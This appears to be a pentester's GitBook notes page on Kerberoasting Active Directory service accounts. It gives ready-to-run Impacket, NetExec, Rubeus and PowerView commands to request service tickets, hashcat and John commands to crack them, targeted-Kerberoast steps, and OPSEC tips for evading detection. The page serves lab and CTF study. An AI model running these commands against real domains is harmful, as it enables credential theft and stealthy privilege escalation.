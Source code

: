 # Kerberoasting

{% hint style="info" %}
Typically, **Kerberoasting happens after compromising a domain user**. However, according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to **perform this attack with an account susceptible to** [ASREPRoast](as-reproasting.md)! For an example of this attack vector check [Rebound](../../../boxes/insane/rebound.md#kerberoasting).
{% endhint %}

{% hint style="warning" %}
**OPSEC:** Kerberoasting is a very silent attack; only one logged entry is created when requesting the ST (`4769`). There are typically thousands of those events on a DC per day.
{% endhint %}

Kerberoasting is **an attack on the Service Ticket (ST) and Service Principal Names (SPNs)**. SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

{% hint style="danger" %}
Accounts like `krbtgt`, machine accounts (e.g. `dc01$`), and (g)MSAs are usually resistant due to complex, long passwords.
{% endhint %}

<figure><img src="../../../.gitbook/assets/kerberoasting_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Tools

{% tabs %}
{% tab title="Impacket" %}
Find and attack user accounts used as service accounts with [Impacket](kerberoasting.md#impacket):

{% code overflow="wrap" %}
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 <domain>/<user> -outputfile <fileName>

# Kerberoast an account susceptible to ASREPRoasting
sudo impacket-GetUserSPNs -no-preauth jjones -usersfile domain_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}

If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)`:

```bash
sudo ntpdate <dc-ip>
```
{% endtab %}

{% tab title="nxc" %}
Find and attack user accounts used as service accounts with [NetExec](../ad-tools/netexec.md):

```bash
# Kerberoast with NetExec
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```

If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)`:

```bash
sudo ntpdate <dc-ip>
```

For an example of Kerberoasting using NetExec see [Active](https://x7331.gitbook.io/boxes/boxes/easy/active#eop-via-kerberoasting).
{% endtab %}

{% tab title="Rubeus" %}
{% hint style="warning" %}
**OPSEC**: To evade detection mechanisms that flag Kerberos encryption downgrades, like MDI, focus on service accounts that are configured to support only `RC4-HMAC`. Requesting a service ticket for them using RC4 appears legitimate and does not trigger downgrade alerts. In addition, try to Kerberoast a single user at a time as this is not seen as an anomaly and won't trigger alerts. \
\
E.g. `.\Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec`&#x20;
{% endhint %}

Find user accounts used as service accounts with [Rubeus](../ad-tools/rubeus.md):

```powershell
# List Kerberoastable accounts
.\Rubeus.exe kerberoast /stats
```

Execute the attack:

{% code overflow="wrap" %}
```powershell
# Kerberoast all SPNs and extract TGS-REP hashes
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /format:hashcat /nowrap

# Kerberoast a single user
.\Rubeus.exe kerberoast /user:svcadmin /simple

# Kerberoast the target account using explicit credentials
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap

# Kerberoast an account susceptible to ASREPRoasting with Rubeus
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}

For an example of Kerberoasting using Rubeus see [Sizzle](https://x7331.gitbook.io/boxes/boxes/insane/sizzle#path-to-victory).
{% endtab %}

{% tab title="PowerView" %}
Find user accounts used as service accounts with [PowerView](../ad-tools/powerview.md):

```powershell
# Enumerate SPNs with PowerView
Get-DomainUser * -SPN | select samaccountname,serviceprincipalname
```

Execute the attack:

{% code overflow="wrap" %}
```powershell
# Kerberoast the enumerated accounts with PowerView
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

# Kerberoast the target account with PowerView
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
{% endcode %}

Optionally, we can clear the SPNs of the target account:

```powershell
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}

{% tab title="AD Module" %}
Find user accounts used as service accounts with the [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2025-ps) module:

{% code overflow="wrap" %}
```powershell
# Enumerate SPNs with AD module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```
{% endcode %}
{% endtab %}
{% endtabs %}

The `krb5tgs` hashes can be cracked offline using [Hashcat](../../../tools/passwords/hashcat.md) or [JtR](../../../tools/passwords/john.md):

{% code overflow="wrap" %}
```bash
# Crack the hashes using Hashcat
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Crack the hashes using John the Ripper
.\john.exe --wordlist=<wordlist> hashes.kerberoast
```
{% endcode %}

## Targeted Kerberoast

If we have `GenericWrite` or `GenericAll` on a user object, we can set an SPN on that user account and then extract and crack the TGS.&#x20;

{% hint style="warning" %}
**OPSEC**: Clean up by removing the SPN afterwards.
{% endhint %}

{% tabs %}
{% tab title="Windows" %}
Set a SPN for the target user (must be unique for the forest) using PowerView or the ActiveDirectory module:

{% code overflow="wrap" %}
```powershell
# PowerView
Set-DomainObject -Identity <targetUser> -Set @{serviceprincipalname='<serviceName>/<randomString>'}

# AD module
Set-ADUser -Identity <targetUser> -ServicePrincipalNames @{Add='<serviceName>/<randomString>'}
```
{% endcode %}
{% endtab %}

{% tab title="Linux" %}
This attack can be performed with [`targetedKerberoast.py`](https://github.com/ShutdownRepo/targetedKerberoast):

```bash
targetedKerberoast.py -v -d <domain_FQDN> -u <user> -p <pass>
```
{% endtab %}
{% endtabs %}

## Resources

* An amazing demonstration of Kerberoasting ([video](https://www.youtube.com/watch?v=-3MxoxdzFNI))
* What `impacket-GetUserSPNs` does behind the scenes ([video](https://www.youtube.com/watch?v=xH5T9-m9QXw))
* Siegecast's lecture on Kerberoasting ([video](https://www.youtube.com/watch?v=Jaa2LmZaNeU))
* An in-depth adsecurity article about Kerberoasting ([article](https://adsecurity.org/?p=3458))
